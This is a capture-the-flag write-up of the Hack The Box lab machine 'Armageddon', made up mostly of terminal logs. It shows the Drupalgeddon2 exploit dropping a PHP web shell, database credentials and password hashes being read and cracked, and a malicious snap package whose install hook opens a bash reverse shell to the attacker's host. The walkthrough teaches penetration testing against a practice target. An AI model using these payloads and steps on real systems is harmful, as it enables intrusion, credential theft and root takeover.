



---
search:
  exclude: true
---
# Armageddon Writeup

## Introduction :

Armageddon is an easy Linux box released back in March 2021.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.49/23 ] [ /dev/pts/3 ] [~/HTB/Armagueddon]
    → nmap -sCV 10.129.48.89
    
    [ 10.10.14.49/23 ] [ /dev/pts/3 ] [~/HTB/Armagueddon]
    → nmap -vvv -p- 10.129.48.89 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 80/tcp on 10.129.48.89
    Discovered open port 22/tcp on 10.129.48.89
    
    [ 10.10.14.49/23 ] [ /dev/pts/3 ] [~/HTB/Armagueddon]
    → nmap -sCV -p 22,80 10.129.48.89
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 14:39 CEST
    Nmap scan report for 10.129.48.89
    Host is up (0.46s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
    | ssh-hostkey:
    |   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
    |   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
    |_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
    80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
    |_http-generator: Drupal 7 (http://drupal.org)
    | http-robots.txt: 36 disallowed entries (15 shown)
    | /includes/ /misc/ /modules/ /profiles/ /scripts/
    | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
    | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
    |_/LICENSE.txt /MAINTAINERS.txt
    |_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
    |_http-title: Welcome to  Armageddon |  Armageddon
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 24.34 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it:

Just as like what we saw in our nmap scan results, this is a website running Drupal, and when we take a look at the page sourcecode we see get the confirmation that this is a Drupal 7 instance: 

Now in order to exploit it we can use [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)
    
    
    [ 10.10.14.49/23 ] [ /dev/pts/3 ] [~/HTB/Armagueddon]
    → git clone https://github.com/dreadlocked/Drupalgeddon2
    Cloning into 'Drupalgeddon2'...
    remote: Enumerating objects: 257, done.
    remote: Counting objects: 100% (4/4), done.
    remote: Compressing objects: 100% (4/4), done.
    remote: Total 257 (delta 0), reused 0 (delta 0), pack-reused 253
    Receiving objects: 100% (257/257), 102.12 KiB | 202.00 KiB/s, done.
    Resolving deltas: 100% (88/88), done.
    
    [ 10.10.14.49/23 ] [ /dev/pts/3 ] [~/HTB/Armagueddon]
    → cd Drupalgeddon2
    
    [ 10.10.14.49/23 ] [ /dev/pts/3 ] [HTB/Armagueddon/Drupalgeddon2]
    → ls -l
    total 44
    -rwxr-xr-x 1 nothing nothing  7262 Aug  5 15:39 drupalgeddon2-customizable-beta.rb
    -rwxr-xr-x 1 nothing nothing 22954 Aug  5 15:39 drupalgeddon2.rb
    -rw-r--r-- 1 nothing nothing 11388 Aug  5 15:39 README.md
    
    

In order to run it we need the **highline** ruby gem:
    
    
    [ 10.10.14.49/23 ] [ /dev/pts/3 ] [HTB/Armagueddon/Drupalgeddon2]
    → sudo gem install highline
    [sudo] password for nothing:
    Fetching highline-2.0.3.gem
    Successfully installed highline-2.0.3
    Parsing documentation for highline-2.0.3
    Installing ri documentation for highline-2.0.3
    Done installing documentation for highline after 2 seconds
    1 gem installed
    
    

Once that's done we run it:
    
    
    [ 10.10.14.49/23 ] [ /dev/pts/3 ] [HTB/Armagueddon/Drupalgeddon2]
    → ./drupalgeddon2.rb http://10.129.48.89
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [i] Target : http://10.129.48.89/
    --------------------------------------------------------------------------------
    [+] Found  : http://10.129.48.89/CHANGELOG.txt    (HTTP Response: 200)
    [+] Drupal!: v7.56
    --------------------------------------------------------------------------------
    [*] Testing: Form   (user/password)
    [+] Result : Form valid
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Clean URLs
    [!] Result : Clean URLs disabled (HTTP Response: 404)
    [i] Isn't an issue for Drupal v7.x
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution   (Method: name)
    [i] Payload: echo UJNQTJEV
    [+] Result : UJNQTJEV
    [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
    --------------------------------------------------------------------------------
    [*] Testing: Existing file   (http://10.129.48.89/shell.php)
    [i] Response: HTTP 404 // Size: 5
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Writing To Web Root   (./)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
    [+] Result : <****?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2> &1' ); }
    [+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
    --------------------------------------------------------------------------------
    [i] Fake PHP shell:   curl 'http://10.129.48.89/shell.php' -d 'c=hostname'
    armageddon.htb>>
    
    

And it looks like we have a shell! however we see that it's not easy to navigate the system with it because of how limited it is:
    
    
    armageddon.htb>> ls -lash
    total 288K
    4.0K drwxr-xr-x.  9 apache apache 4.0K Aug  5 14:41 .
       0 drwxr-xr-x.  4 root   root     33 Dec  3  2020 ..
    4.0K -rw-r--r--.  1 apache apache  317 Jun 21  2017 .editorconfig
    4.0K -rw-r--r--.  1 apache apache  174 Jun 21  2017 .gitignore
    8.0K -rw-r--r--.  1 apache apache 6.0K Jun 21  2017 .htaccess
    112K -rw-r--r--.  1 apache apache 109K Jun 21  2017 CHANGELOG.txt
    4.0K -rw-r--r--.  1 apache apache 1.5K Jun 21  2017 COPYRIGHT.txt
    4.0K -rw-r--r--.  1 apache apache 1.7K Jun 21  2017 INSTALL.mysql.txt
    4.0K -rw-r--r--.  1 apache apache 1.9K Jun 21  2017 INSTALL.pgsql.txt
    4.0K -rw-r--r--.  1 apache apache 1.3K Jun 21  2017 INSTALL.sqlite.txt
     20K -rw-r--r--.  1 apache apache  18K Jun 21  2017 INSTALL.txt
     20K -rw-r--r--.  1 apache apache  18K Nov 16  2016 LICENSE.txt
     12K -rw-r--r--.  1 apache apache 8.6K Jun 21  2017 MAINTAINERS.txt
    8.0K -rw-r--r--.  1 apache apache 5.3K Jun 21  2017 README.txt
     12K -rw-r--r--.  1 apache apache 9.9K Jun 21  2017 UPGRADE.txt
    8.0K -rw-r--r--.  1 apache apache 6.5K Jun 21  2017 authorize.php
    4.0K -rw-r--r--.  1 apache apache  720 Jun 21  2017 cron.php
    4.0K drwxr-xr-x.  4 apache apache 4.0K Jun 21  2017 includes
    4.0K -rw-r--r--.  1 apache apache  529 Jun 21  2017 index.php
    4.0K -rw-r--r--.  1 apache apache  703 Jun 21  2017 install.php
    4.0K drwxr-xr-x.  4 apache apache 4.0K Dec  4  2020 misc
    4.0K drwxr-xr-x. 42 apache apache 4.0K Jun 21  2017 modules
       0 drwxr-xr-x.  5 apache apache   70 Jun 21  2017 profiles
    4.0K -rw-r--r--.  1 apache apache 2.2K Jun 21  2017 robots.txt
       0 drwxr-xr-x.  2 apache apache  261 Jun 21  2017 scripts
    4.0K -rw-r--r--.  1 apache apache   75 Aug  5 14:41 shell.php
       0 drwxr-xr-x.  4 apache apache   75 Jun 21  2017 sites
       0 drwxr-xr-x.  7 apache apache   94 Jun 21  2017 themes
     20K -rw-r--r--.  1 apache apache  20K Jun 21  2017 update.php
    4.0K -rw-r--r--.  1 apache apache 2.2K Jun 21  2017 web.config
    4.0K -rw-r--r--.  1 apache apache  417 Jun 21  2017 xmlrpc.php
    armageddon.htb>> pwd
    /var/www/html
    armageddon.htb>> cd sites
    
    armageddon.htb>> pwd
    /var/www/html
    
    armageddon.htb>> which cd
    /usr/bin/cd
    
    

As you can see we can't use the cd command to change directories. But that's not an issue so we navigate to **sites/default/settings.php**
    
    
    armageddon.htb>> cat sites/default/settings.php
    <****?php
    
    [...]
    
    $databases = array (
      'default' =>
      array (
        'default' =>
        array (
          'database' => 'drupal',
          'username' => 'drupaluser',
          'password' => 'CQHEy@9M*m23gBVj',
          'host' => 'localhost',
          'port' => '',
          'driver' => 'mysql',
          'prefix' => '',
        ),
      ),
    );
    
    [...]
    
    ?>
    
    armageddon.htb>> cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    operator:x:11:0:operator:/root:/sbin/nologin
    games:x:12:100:games:/usr/games:/sbin/nologin
    ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
    nobody:x:99:99:Nobody:/:/sbin/nologin
    systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
    dbus:x:81:81:System message bus:/:/sbin/nologin
    polkitd:x:999:998:User for polkitd:/:/sbin/nologin
    sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
    postfix:x:89:89::/var/spool/postfix:/sbin/nologin
    apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
    mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
    brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash

now here we seem to have credentials for a mysql database, however the drupaluser doesn't appear in /etc/passwd, therefore we probably need to get password hashes from the database itself:
    
    
    armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
    name    pass
    
    brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
    
    

now here we have a password hash, so let's crack it with john:
    
    
    [ 10.10.14.34/23 ] [ /dev/pts/20 ] [~/HTB/Armageddon]
    → vim hash.txt
    
    [ 10.10.14.34/23 ] [ /dev/pts/20 ] [~/HTB/Armageddon]
    → cat hash.txt
    $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
    
    [ 10.10.14.34/23 ] [ /dev/pts/20 ] [~/HTB/Armageddon]
    → john hash.txt -w=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
    Cost 1 (iteration count) is 32768 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    booboo           (?)
    1g 0:00:00:00 DONE (2021-08-09 11:30) 2.439g/s 585.3p/s 585.3c/s 585.3C/s tiffany..chris
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    
    

And we have brucetherealadmin's password! Now let's try to login via SSH:
    
    
    [ 10.10.14.34/23 ] [ /dev/pts/20 ] [~/HTB/Armageddon]
    → ssh brucetherealadmin@10.129.48.89
    The authenticity of host '10.129.48.89 (10.129.48.89)' can't be established.
    ECDSA key fingerprint is SHA256:bC1R/FE5sI72ndY92lFyZQt4g1VJoSNKOeAkuuRr4Ao.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.129.48.89' (ECDSA) to the list of known hosts.
    brucetherealadmin@10.129.48.89's password:
    Last login: Tue Mar 23 12:40:36 2021 from 10.10.14.2
    [brucetherealadmin@armageddon ~]$ id
    uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    [brucetherealadmin@armageddon ~]$ ls -lash
    total 16K
       0 drwx------. 2 brucetherealadmin brucetherealadmin  99 Dec 14  2020 .
       0 drwxr-xr-x. 3 root              root               31 Dec  3  2020 ..
       0 lrwxrwxrwx. 1 root              root                9 Dec 11  2020 .bash_history -> /dev/null
    4.0K -rw-r--r--. 1 brucetherealadmin brucetherealadmin  18 Apr  1  2020 .bash_logout
    4.0K -rw-r--r--. 1 brucetherealadmin brucetherealadmin 193 Apr  1  2020 .bash_profile
    4.0K -rw-r--r--. 1 brucetherealadmin brucetherealadmin 231 Apr  1  2020 .bashrc
    4.0K -r--------. 1 brucetherealadmin brucetherealadmin  33 Aug  9 10:03 user.txt
    [brucetherealadmin@armageddon ~]$ cat user.txt
    58XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to login and get the user flag.

## **Part 3 : Getting Root Access**

Now in order to get to the root flag. We first need to enumerate the box, to do so we can use linpeas.sh: 
    
    
    [terminal 1]
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB/Armageddon]
    → cp /home/nothing/HTB/Academy/linpeas.sh .
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB/Armageddon]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [terminal 2]
    [brucetherealadmin@armageddon ~]$ curl http://10.10.14.34:9090/linpeas.sh > /tmp/peas.sh
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  333k  100  333k    0     0   120k      0  0:00:02  0:00:02 --:--:--  120k
    [brucetherealadmin@armageddon ~]$ chmod +x /tmp/peas.sh
    [brucetherealadmin@armageddon ~]$ /tmp/peas.sh
    
    

` 

Let it run, and then when we check the output we see the following:

Looks like we are able to run **snap** as the root user without any password, therefore let's use the [gtfobin](https://gtfobins.github.io/gtfobins/snap/) for snap:

    
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB/Armageddon]
    → sudo gem install fpm
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB/Armageddon]
    → COMMAND='bash -c "bash -i >& /dev/tcp/10.10.14.34/9001 0>&1"'
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB/Armageddon]
    → cd $(mktemp -d)
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [/tmp/tmp.uYjIjYciPg]
    → mkdir meta/hooks/ -p
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [/tmp/tmp.uYjIjYciPg]
    → printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [/tmp/tmp.uYjIjYciPg]
    → chmod +x meta/hooks/install
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [/tmp/tmp.uYjIjYciPg]
    → fpm -n privesc -s dir -t snap -a all meta
    Created package {:path=>"privesc_1.0_all.snap"}
    
    

Now we upload the malicious privesc snap file to the machine and run it:
    
    
    [term1]
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [/tmp/tmp.uYjIjYciPg]
    → ls -lash
    total 16K
    4.0K drwx------  3 nothing nothing 4.0K Aug  9 12:40 .
    4.0K drwxrwxrwt 23 root    root    4.0K Aug  9 12:40 ..
    4.0K drwxr-xr-x  3 nothing nothing 4.0K Aug  9 12:40 meta
    4.0K -rw-r--r--  1 nothing nothing 4.0K Aug  9 12:40 privesc_1.0_all.snap
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [/tmp/tmp.uYjIjYciPg]
    → md5sum privesc_1.0_all.snap
    1159d305989905e39a5f9a8e63ba35ed  privesc_1.0_all.snap
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [/tmp/tmp.uYjIjYciPg]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [term2]
    [brucetherealadmin@armageddon ~]$ curl http://10.10.14.34:9090/privesc_1.0_all.snap > /tmp/privesc.snap
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  4096  100  4096    0     0   4446      0 --:--:-- --:--:-- --:--:--  4452
    [brucetherealadmin@armageddon ~]$ md5sum /tmp/privesc.snap
    1159d305989905e39a5f9a8e63ba35ed  /tmp/privesc.snap
    
    

both the file hashes match therefore the transfer was successful. Now let's run snap as the root user to make use of the snap package we created:
    
    
    [term 1]
    
    [brucetherealadmin@armageddon tmp]$ sudo snap install /tmp/privesc.snap --dangerous --devmode
    Run install hook of "privesc" snap if present    
    
    [term 2]
    
    [ 10.10.14.34/23 ] [ /dev/pts/7 ] [/tmp/tmp.uYjIjYciPg]
    → nc -lvnp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.129.48.89 57430
    bash: cannot set terminal process group (18084): Inappropriate ioctl for device
    bash: no job control in this shell
    bash-4.3# id
    id
    uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
    bash-4.3# cat /root/root.txt
    cat /root/root.txt
    34XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get the root flag.

## **Conclusion**

Here we can see the progress graph :

